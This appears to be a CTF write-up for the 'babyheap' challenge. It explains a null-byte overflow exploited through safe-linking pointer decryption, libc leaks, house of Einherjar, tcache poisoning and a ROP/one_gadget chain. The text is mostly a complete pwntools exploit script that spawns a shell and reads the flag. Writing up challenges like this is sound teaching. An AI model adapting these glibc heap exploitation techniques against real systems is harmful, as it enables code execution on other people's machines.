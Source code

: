 # solution
there is a simple null byte overflow in the modify function.
you can exploit it with house of einherjar.
we can simply leak heap address and libc address by using the fact that after malloc the chunks are not intizialized.
so by doing this:
  ```py

create(0, 16)
create(1, 16)

remove(0)
remove(1)

create(0, 16)
  ```
  
we have a heap address in the chunk. since libc 2.32 we have to decrypt that address by using this function:

```py
def decrypt(cipher):
  key = 0
  plain = 0
  for i in range(1,6):
    bits = 64-12*i
    if(bits<0):
      bits = 0
    plain = ((cipher ^ key) >> bits) << bits
    key = plain >> 12
  return (key, plain)
```

to leak libc address is a bit more complex, we have to allocate 8 chunks of a size > 0x80 and one to prevent consolidation
then remove this 8 chunks and reallocate them.
the 8th chunk will contain the address of the main arena and will be in the unsorted bin.
so we just need to do another allocation of a random size to get a chunk where pointers to main arena are stored.
like this:

```py
for i in range(8):
  create(i, 0x100)

for i in range(8):
  remove(i)

create(0, 16)
leak = int.from_bytes(view(7, 16)[8:16], "little")-0x219d00
```

now we just have to exploit the null byte overflow by using house_of_einherjar:
  ```py
#create a fake chunk of 0x60 size
create(0, 0x38)#a 
modify(0, 0x38, p64(0x0)+p64(0x60)+p64(heap+0xb80)+p64(heap+0xb80))

create(1, 0x28) #b
create(2, 0xf8) #c

#null byte overflow in b modifying the size of c from 0x101 in 0x100 and writing the prev size of the fake chunk
modify(1, 0x28, b"a"*0x20+p64(0x60))

#freeing c into unsorted
for i in range(3, 10):
  create(i, 0xf8)

for i in range(3, 10):
  remove(i)

remove(2)

#after the free of c fake chunk and c are consolidated so we now have a chunk of 0x160 in the unsorted
#by allocating this chunk we get a overlap in b
create(15, 0x158)

#setup tcache to overwrite fwd of b
create(14, 0x28)
remove(14)
remove(1)

#encrypting for safe linking and allocate overwrite fwd with target
target = libc.symbols["environ"]^key 
modify(15, 0x38, p64(0x0)*5 + p64(0x31) + p64(target)) 

create(11, 0x28) #b
create(12, 0x28) #target
  ```
  

this is the full exploit:
  ```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *

context.update(arch='amd64')
exe = './babyheap'
libc = ELF("./libc.so.6")
rop = ROP("./libc.so.6")




def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.LOCAL:
        return process([exe] + argv, *a, **kw)
    else:
        return remote("babyheap.challs.srdnlen.it", 15010)

gdbscript = '''
continue
'''.format(**locals())

def create(index, size):
    io.sendlineafter(b"> ", b"1")
    io.sendlineafter(b"> ", str(index).encode())
    io.sendlineafter(b"> ", str(size).encode())

def remove(index):
    io.sendlineafter(b"> ", b"2")
    io.sendlineafter(b"> ", str(index).encode())

def view(index, size):
    io.sendlineafter(b"> ", b"3")
    io.sendlineafter(b"> ", str(index).encode())
    io.sendlineafter(b"> ", str(size).encode())
    io.recvuntil(b": ")
    return io.recv(size)

def modify(index, size, content):
    io.sendlineafter(b"> ", b"4")
    io.sendlineafter(b"> ", str(index).encode())
    io.sendlineafter(b"> ", str(size).encode())
    io.sendlineafter(b"> ", content)

def decrypt(cipher):
    key = 0
    plain=0

    for i in range(1, 6):
        bits = 64-12*i
        if(bits < 0):
            bits = 0
        plain = ((cipher ^ key) >> bits) << bits
        key = plain >> 12
    return (key, plain)


# -- Exploit goes here --

io = start()

#leak heap address by decripting safe linking
create(0, 16)
create(1, 16)

remove(0)
remove(1)

create(0, 16)

a = int.from_bytes(view(0, 8), "little")
key, leak = decrypt(a)
heap = leak -0x2a0
print(hex(key))
print(hex(heap))


#leak libc address
for i in range(8):
    create(i, 0x100)

create(8, 0x10)
create(8, 0x10)

for i in range(8):
    remove(i)

create(7, 16)
print(view(7, 16))
leak = int.from_bytes(view(7, 16)[8:16], "little")-0x219d00
libc.address=leak
print(hex(libc.address))


#create a fake chunk of 0x60 size
create(0, 0x38)#a 
modify(0, 0x38, p64(0x0)+p64(0x60)+p64(heap+0xb80)+p64(heap+0xb80))

create(1, 0x28) #b
create(2, 0xf8) #c

#null byte overflow in b modifying the size of c from 0x101 in 0x100 and writing the prev size of the fake chunk
modify(1, 0x28, b"a"*0x20+p64(0x60))

#freeing c into unsorted
for i in range(3, 10):
    create(i, 0xf8)

for i in range(3, 10):
    remove(i)

remove(2)

#after the free of c fake chunk and c are consolidated so we now have a chunk of 0x160 in the unsorted
#by allocating this chunk we get a overlap in b
create(15, 0x158)

#we just do a use after free
create(14, 0x28)
remove(14)
remove(1)

#encrypting for safe linking
#since hook are disabled, leak the stack address and then creating a rop at return address
target = libc.symbols["environ"]^key 
modify(15, 0x38, p64(0x0)*5 + p64(0x31) + p64(target)) 

create(11, 0x28) #b
create(12, 0x28) #target

stack = view(12, 8)
stack = int.from_bytes(stack, "little")-0x128
print(hex(stack))

#redo the use after free
create(14, 0x28)
remove(14)
remove(11)

#encrypting the ret address stack
target = stack^key 
modify(15, 0x38, p64(0x0)*5 + p64(0x31) + p64(target)) 

create(11, 0x28) #b
create(12, 0x28) #target

#just ensure one_gadget  constraints are met then exit and get the shell
exploit = p64(libc.bss()+0x78) + p64(rop.rsi.address + libc.address) + p64(0x0) + p64(rop.ret.address + libc.address) + p64(0xebcf8+libc.address)

modify(12, 0x28, exploit)

io.sendlineafter(b"> ", b"5")
io.recvuntil(b"bye bye")
io.sendline(b"cat flag.txt")

flag = io.recvline(keepends=False)
print(flag)

io.close()
  ```   
